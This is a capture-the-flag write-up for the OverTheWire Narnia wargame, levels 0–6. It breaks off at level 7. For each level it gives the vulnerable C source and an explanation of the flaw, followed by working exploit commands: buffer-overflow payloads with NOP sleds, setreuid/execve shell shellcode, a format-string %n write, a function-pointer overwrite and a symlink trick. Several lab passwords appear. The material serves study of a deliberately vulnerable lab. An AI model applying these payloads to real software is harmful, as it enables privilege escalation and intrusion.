








## Narnia 0
In `/narnia/narnia0.c` we can find the source code of `/narnia/narnia0`

```c
#include <stdio.h>
#include <stdlib.h>

int main(){
    long val=0x41414141;
    char buf[20];

    printf("Correct val's value from 0x41414141 -> 0xdeadbeef!\n");
    printf("Here is your chance: ");
    scanf("%24s",&buf);

    printf("buf: %s\n",buf);
    printf("val: 0x%08x\n",val);

    if(val==0xdeadbeef){
        setreuid(geteuid(),geteuid());
        system("/bin/sh");
    }
    else {
        printf("WAY OFF!!!!\n");
        exit(1);
    }

    return 0;
}
```

And it's a simple stack overflow bug because `buf` only has 20 bytes and 
`scanf` will read 24 bytes into where `buf` starts. And the extra 4 bytes
will overwrite the value in `val`.

Therefore, we can do a oneliner as follows to get shell

```bash
ssh -p 2226 narnia0@narnia.labs.overthewire.org bash -c "\"(echo -e 'AAAAAAAAAAAAAAAAAAAA\xef\xbe\xad\xde' && cat) | /narnia/narnia0\""
```

> As a sidenote, thanks to peachoolong-uwu who told me that I can embed `echo -e 'AAAAAAAAAAAAAAAAAAAA\xef\xbe\xad\xde'` inside a pair of parentheses and add `&& cat` to keep the stdin steam open.

Now once we type the password of narnia0, `/narnia/narnia0` will send us to
 a sub-shell and we should be `narnia1` in this new shell.

To get the password of user `narnia1`, we simply type 
`cat /etc/narnia_pass/narnia1` and press return.


## Narnia 1

Now we have the password to log in to `narnia1`, we can find its source code
at `/narnia/narnia1.c`.

```c
#include <stdio.h>

int main(){
    int (*ret)();

    if(getenv("EGG")==NULL){
        printf("Give me something to execute at the env-variable EGG\n");
        exit(1);
    }

    printf("Trying to execute EGG!\n");
    ret = getenv("EGG");
    ret();

    return 0;
}
```

`ret` is a function pointer, so once we get the value of the environment
variable, `EGG`, it will be assigned to `ret`. 

And calling `ret()` will be effeectively jump to the position of the result of
`getenv("EGG")`, it will execute whatever instruction
we set in the env var `EGG`.

Therefore, we can craft some shellcode and get shell.

```bash
$ pwn shellcraft -f d setreuid
\x6a\x31\x58\xcd\x80\x89\xc3\x6a\x46\x58\x89\xd9\xcd\x80
$ pwn shellcraft -f d sh
\x6a\x68\x68\x2f\x2f\x2f\x73\x68\x2f\x62\x69\x6e\x89\xe3\x68\x01\x01\x01\x01\x81\x34\x24\x72\x69\x01\x01\x31\xc9\x51\x6a\x04\x59\x01\xe1\x51\x89\xe1\x31\xd2\x6a\x0b\x58\xcd\x80
```

Or you can use my fork of pwntools which supports multiple shellcraft commands,
[cocoa-xu/pwntools:cx-multi-shellcraft-cmd](https://github.com/cocoa-xu/pwntools/tree/cx-multi-shellcraft-cmd).

```bash
$ pwn shellcraft -f d setreuid + sh
\x6a\x31\x58\xcd\x80\x89\xc3\x6a\x46\x58\x89\xd9\xcd\x80\x6a\x68\x68\x2f\x2f\x2f\x73\x68\x2f\x62\x69\x6e\x89\xe3\x68\x01\x01\x01\x01\x81\x34\x24\x72\x69\x01\x01\x31\xc9\x51\x6a\x04\x59\x01\xe1\x51\x89\xe1\x31\xd2\x6a\x0b\x58\xcd\x80
```

So we can do this to get shell and gat the password for user `narnia2`.

```bash
EGG=`echo -e '\x6a\x31\x58\xcd\x80\x89\xc3\x6a\x46\x58\x89\xd9\xcd\x80\x6a\x68\x68\x2f\x2f\x2f\x73\x68\x2f\x62\x69\x6e\x89\xe3\x68\x01\x01\x01\x01\x81\x34\x24\x72\x69\x01\x01\x31\xc9\x51\x6a\x04\x59\x01\xe1\x51\x89\xe1\x31\xd2\x6a\x0b\x58\xcd\x80'` /narnia/narnia1
$ cat /etc/narnia_pass/narnia2
```


## Narnia 2

As always, we can find the source code for narnia2 in `/narnia/narnia2.c`.

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

int main(int argc, char * argv[]){
    char buf[128];

    if(argc == 1){
        printf("Usage: %s argument\n", argv[0]);
        exit(1);
    }
    strcpy(buf,argv[1]);
    printf("%s", buf);

    return 0;
}
```

Obviously, `strcpy` is not a safe function as it will copy everything into
`buf` until it encounters the first `NULL`, i.e., `\x00`. So this is still a
commonly seen stack overflow bug, and it will us to control the program when
exploit properly.

This time we need to know a little bit about x86 stack layout. In this example
the compiler allocated 128 bytes on stack for `char buf[128]`, and 4 bytes
above sits our `%ebp` register, and 4 more bytes above sits our `%eip` 
register. The value in the `%ebp` register pointers to the base address of the
previous frame, while `%eip` stores the return address where we'll jump to
when we return from the current function.

Let's name the string we pass to the program as `ARG`, then based on what we
already know above, we can pass in an address at `ARG[132:136]`, say 
`\x10\x20\x7c\xff` then the program will jump to `0xff7c2010` after returning
from `main`, and it will try to execute whatever instructions from 
`0xff7c2010`.

And of course, the instruction we'd like it to execute is `setreuid(0, 0)` 
and `system("/bin/sh")`. So again we can get that shellcode with the following
code.

```bash
$ pwn shellcraft -f d setreuid + sh
\x6a\x31\x58\xcd\x80\x89\xc3\x6a\x46\x58\x89\xd9\xcd\x80\x6a\x68\x68\x2f\x2f\x2f\x73\x68\x2f\x62\x69\x6e\x89\xe3\x68\x01\x01\x01\x01\x81\x34\x24\x72\x69\x01\x01\x31\xc9\x51\x6a\x04\x59\x01\xe1\x51\x89\xe1\x31\xd2\x6a\x0b\x58\xcd\x80
```

Now the question becomes which address should we put at `ARG[132:136]`. To find
that value, we can first write our shellcode:

```bash
$( \
    python3 -c "print('A'*132, end='')" && \
    echo -e '\xef\xbe\xad\xde' && \
    echo -e '\x6a\x31\x58\xcd\x80\x89\xc3\x6a\x46\x58\x89\xd9\xcd\x80\x6a\x68\x68\x2f\x2f\x2f\x73\x68\x2f\x62\x69\x6e\x89\xe3\x68\x01\x01\x01\x01\x81\x34\x24\x72\x69\x01\x01\x31\xc9\x51\x6a\x04\x59\x01\xe1\x51\x89\xe1\x31\xd2\x6a\x0b\x58\xcd\x80' \
)
```

Then we can use `gef` to get an approximate address of where should we jump.

```bash
$ gef /narnia/narnia2
gef➤ r $ARG
```

If everything goes according to the plan, we should see it segfault now.




Now we can use nop sled to guide the program to our shellcode, and after
some trials and errors, the following code can do it.

/tmp/noenv /narnia/narnia2 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x20\xdd\xff\xff\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x6a\x31\x58\xcd\x80\x89\xc3\x6a\x46\x58\x89\xd9\xcd\x80\x6a\x68\x68\x2f\x2f\x2f\x73\x68\x2f\x62\x69\x6e\x89\xe3\x68\x01\x01\x01\x01\x81\x34\x24\x72\x69\x01\x01\x31\xc9\x51\x6a\x04\x59\x01\xe1\x51\x89\xe1\x31\xd2\x6a\x0b\x58\xcd\x80'

where `/tmp/noenv` is a helper program which I wrote that passes no environment
variables to a program because env vars can also effect the variable addresses
on stack.



The source code of noenv is quite straightforward:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

int is_valid_hex(char h, char * b) {
    if ('0' <= h && h <= '9') {
        *b = h - '0';
        return 1;
    } else if ('a' <= h && h <= 'f') {
        *b = h - 'a' + 0xa;
        return 1;
    } else if ('A' <= h && h <= 'F') {
        *b = h - 'a' + 0xa;
        return 1;
    }
    return 0;
}

int hex2byte(char hi, char lo, char * byte) {
    char h, l;
    if (is_valid_hex(hi, &h) && is_valid_hex(lo, &l)) {
        *byte = h << 4 | l;
        return 1;
    }
    return 0;
}

char * argvdup(const char * src) {
    if (src == NULL) return NULL;
    size_t len = strlen(src);
    size_t i = 0;
    size_t j = 0;
    char * res = (char *)malloc(sizeof(char) * len);
    while (i < len) {
        if (src[i] == '\\' && src[i + 1] == 'x' && i + 3 < len) {
            char c;
            if (hex2byte(src[i + 2], src[i + 3], &c)) {
                res[j] = c;
                i += 3;
            } else {
                res[j] = src[i];
            }
        } else {
            res[j] = src[i];
        }
        j++;
        i++;
    }
    res[j] = '\0';
    return res;
}

int main(int argc, char *const argv[]) {
    if (argc > 1) {
        char ** my_argv = (char **)malloc(sizeof(char *) * (argc - 1));
        for (int i = 1; i < argc; i++) {
            my_argv[i - 1] = argvdup(argv[i]);
	        printf("[+] copying argv[%d], len=%lu\r\n", i - 1, strlen(my_argv[i - 1]));
        }
        my_argv[argc - 1] = NULL;
        char ** my_envp = (char **)malloc(sizeof(char *));
        my_envp[0] = NULL;
        printf("[+] execute %s\r\n", argv[1]);
        execve(argv[1], my_argv, my_envp);
    }
}
```

## Narnia 3

The source code of narnia 3 goes below.

```c
#include <stdio.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <unistd.h>
#include <stdlib.h>
#include <string.h>

int main(int argc, char **argv){

    int  ifd,  ofd;
    char ofile[16] = "/dev/null";
    char ifile[32];
    char buf[32];

    if(argc != 2){
        printf("usage, %s file, will send contents of file 2 /dev/null\n",argv[0]);
        exit(-1);
    }

    /* open files */
    strcpy(ifile, argv[1]);
    if((ofd = open(ofile,O_RDWR)) < 0 ){
        printf("error opening %s\n", ofile);
        exit(-1);
    }
    if((ifd = open(ifile, O_RDONLY)) < 0 ){
        printf("error opening %s\n", ifile);
        exit(-1);
    }

    /* copy from file1 to file2 */
    read(ifd, buf, sizeof(buf)-1);
    write(ofd,buf, sizeof(buf)-1);
    printf("copied contents of %s to a safer place... (%s)\n",ifile,ofile);

    /* close 'em */
    close(ifd);
    close(ofd);

    exit(1);
}
```

As we can see, this program uses `strcpy` to copy the path to `ifile`, which
is an unsafe function. Therefore we can overflow `ifile` and overwrite the
string content stored in `ofile`. 

The basic idea is 

1. to find a way that let `ifile` point to `/etc/narnia_pass/narnia4`
2. overwrite the content of `ofile` to somewhere we have read/write access

Note that after overflowing `ifile`, `ifile` will share the null-terminator
with `ofile`, i.e., if we pass `/tmp/AAAAAAAAAAAAAAAAAAAAAAAAAAA/tmp/narnia4`
to `/narnia/narnia3`, then `ifile` will be
`/tmp/AAAAAAAAAAAAAAAAAAAAAAAAAAA/tmp/narnia4` while `ofile` is `/tmp/narnia4`.

Since `ifile` will be `/tmp/AAAAAAAAAAAAAAAAAAAAAAAAAAA/tmp/narnia4`, we can
make it a soft link to `/etc/narnia_pass/narnia4`.

```bash
$ touch /tmp/narnia4
$ mkdir -p /tmp/AAAAAAAAAAAAAAAAAAAAAAAAAAA/tmp
$ ln -s /etc/narnia_pass/narnia4 /tmp/AAAAAAAAAAAAAAAAAAAAAAAAAAA/tmp/narnia4
$ /narnia/narnia3 /tmp/AAAAAAAAAAAAAAAAAAAAAAAAAAA/tmp/narnia4
copied contents of /tmp/AAAAAAAAAAAAAAAAAAAAAAAAAAA/tmp/narnia4 to a safer place... (/tmp/narnia4)
$ cat /tmp/narnia4
aKNxxrpDc1
```



## Narnia 4

As usual, we can find the source code of narnia 4 in `/narnia/narnia4.c`.

```c
#include <string.h>
#include <stdlib.h>
#include <stdio.h>
#include <ctype.h>

extern char **environ;

int main(int argc,char **argv){
    int i;
    char buffer[256];

    for(i = 0; environ[i] != NULL; i++)
        memset(environ[i], '\0', strlen(environ[i]));

    if(argc>1)
        strcpy(buffer,argv[1]);

    return 0;
}
```

And this is another typical stack overflow issue which would allows attackers
to take control of the program.

So we first fill in 256 bytes, and then it will overwrite variable `i`, 
(256:256+4), `%ebp` (256+4:256+8) and `%eip` (256+8:256+12). Therefore, we
should pass 256+8=264 `A` first, and then pass in the address where we'd like
it to jump to.

> And thanks to shinohara-rin for teaching me how to use ltrace! Using ltrace we
> can trace all function calls to libc.

Let's test it with 264 `A`s + `0xdeadbeef` + nop sled + shellcode 
(`setreuid(0,0)` + `sh`) first.

```bash
$ ltrace /narnia/narnia4 `echo -e 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xef\xbe\xad\xde\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x6a\x31\x58\xcd\x80\x89\xc3\x6a\x46\x58\x89\xd9\xcd\x80\x6a\x68\x68\x2f\x2f\x2f\x73\x68\x2f\x62\x69\x6e\x89\xe3\x68\x01\x01\x01\x01\x81\x34\x24\x72\x69\x01\x01\x31\xc9\x51\x6a\x04\x59\x01\xe1\x51\x89\xe1\x31\xd2\x6a\x0b\x58\xcd\x80'`
__libc_start_main(0x8049196, 2, 0xffffd4b4, 0 <unfinished ...>
strlen("SHELL=/bin/bash")                        = 15
memset(0xffffd719, '\0', 15)                     = 0xffffd719
strlen("PWD=/home/narnia4")                      = 17
...
memset(0xffffdfc2, '\0', 19)                     = 0xffffdfc2
strlen("_=/usr/bin/ltrace")                      = 17
memset(0xffffdfd6, '\0', 17)                     = 0xffffdfd6
strcpy(0xffffd234, "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"...) = 0xffffd2f4
--- SIGSEGV (Segmentation fault) ---
+++ killed by SIGSEGV +++
```

And we can see that in my trial, `buffer` begins at `0xffffd234`. So now we can
modify the address to `0xffffd234+264 = 0xffffd33c` and we round it
up to `0xffffd340`


```bash
$ /narnia/narnia4 `echo -e 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x40\xd3\xff\xff\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x6a\x31\x58\xcd\x80\x89\xc3\x6a\x46\x58\x89\xd9\xcd\x80\x6a\x68\x68\x2f\x2f\x2f\x73\x68\x2f\x62\x69\x6e\x89\xe3\x68\x01\x01\x01\x01\x81\x34\x24\x72\x69\x01\x01\x31\xc9\x51\x6a\x04\x59\x01\xe1\x51\x89\xe1\x31\xd2\x6a\x0b\x58\xcd\x80'`
$ cat /etc/narnia_pass/narnia5
1oCoEkRJSB
```




## Narnia 5

Below goes the source code for narnia 5.

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main(int argc, char **argv){
	int i = 1;
	char buffer[64];

	snprintf(buffer, sizeof buffer, argv[1]);
	buffer[sizeof (buffer) - 1] = 0;
	printf("Change i's value from 1 -> 500. ");

	if(i==500){
		printf("GOOD\n");
        setreuid(geteuid(),geteuid());
		system("/bin/sh");
	}

	printf("No way...let me give you a hint!\n");
	printf("buffer : [%s] (%d)\n", buffer, strlen(buffer));
	printf ("i = %d (%p)\n", i, &i);
	return 0;
}
```

And we can spot that the first argument of `snprintf`, `buffer`, which serves
as the template/format string, is acutally user-controllable because this
program prints `argv[1]` into `buffer`.

There is an infamous behaviour in `snprintf`, `%n`, which writes how many bytes
it have written to the string. And of course we will take advantage of that to
capture the flag.

Another default behaviour in `snprintf` is that if you specify something like
`%100s` to get a string that contains 100 characters and your stdin has EOF'ed,
then `snprintf` will fill in ` ` (space) for you.

So the idea will be that we let `snprintf` to write 500 bytes and then write
`%n` exactly at `i`'s address. Let's find out `i`'s address first!

```bash
$ /narnia/narnia5
Change i's value from 1 -> 500. No way...let me give you a hint!
buffer : [] (0)
i = 1 (0xffffd4f0)
```

And lastly, we should write `i`'s address at the beginning of `argv[1]`, in 
binary of course. So it would be 

```
$ /narnia/narnia5 `echo -e '\xf0\xd4\xff\xff'`
```

and now `snprintf` will have read 4 bytes into buffer, so we can append `%496s`

```
$ /narnia/narnia5 `echo -e '\xf0\xd4\xff\xff%496s'`
```

After that, we should specify which location to write for the `%n`, and its
syntax is something like `%1$n`, which means write the number of bytes 
that currently read to the location of argument 1.

```
$ /narnia/narnia5 `echo -e '\xf0\xd4\xff\xff%496s%1$n'`
```

Also note that passing arguments to a program will effect the address of all
variables on the stack.

So we make a last minor correction to get the current location of variable `i`
and everything will be set.

```
$ /narnia/narnia5 `echo -e '\xe0\xd4\xff\xff%496s%1$n'`
Change i's value from 1 -> 500. GOOD
$ cat /etc/narnia_pass/narnia6
BAV0SUV0iM
```



## Narnia 6

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

extern char **environ;

// tired of fixing values...
// - morla
unsigned long get_sp(void) {
       __asm__("movl %esp,%eax\n\t"
               "and $0xff000000, %eax"
               );
}

int main(int argc, char *argv[]){
	char b1[8], b2[8];
	int  (*fp)(char *)=(int(*)(char *))&puts, i;

	if(argc!=3){ printf("%s b1 b2\n", argv[0]); exit(-1); }

	/* clear environ */
	for(i=0; environ[i] != NULL; i++)
		memset(environ[i], '\0', strlen(environ[i]));
	/* clear argz    */
	for(i=3; argv[i] != NULL; i++)
		memset(argv[i], '\0', strlen(argv[i]));

	strcpy(b1,argv[1]);
	strcpy(b2,argv[2]);
	//if(((unsigned long)fp & 0xff000000) == 0xff000000)
	if(((unsigned long)fp & 0xff000000) == get_sp())
		exit(-1);
	setreuid(geteuid(),geteuid());
    fp(b1);

	exit(1);
}
```

Narnia 6 may seem to be hard at first glance but it actually quite simple
because the variable `fp` on the stack sits above `b1` and `b2`. 

And since we can control the value in `b1` and `b2`, as well as overflow the
stack as the program uses `strcpy` to set the content for `b1` and `b2`, we
can do the following steps to capture the flag:

1. find the address of `system`
2. overflow `b1` so that `fp` points to `system` instead of `puts`
3. overflow `b2` to set `b1` to `/bin/sh`

And now once the program executes `fp(b1)`, it will actually do
`system("/bin/sh")`, and everything is done.

To get the address of `system`, we can use `gdb`, break at `main` and let it
run the program. Once the program is running, it will load functions in libc,
and now we can print the addres of `system`, which is `0xf7c48150`.


```bash
$ /narnia/narnia6 `echo -e 'AAAAAAAA\x50\x81\xc4\xf7'` AAAAAAAA/bin/sh
$ cat /etc/narnia_pass/narnia7
YY4F9UaB60
```



## Narnia 7

```c
#include <stdio.h>
#include <stdlib.h>
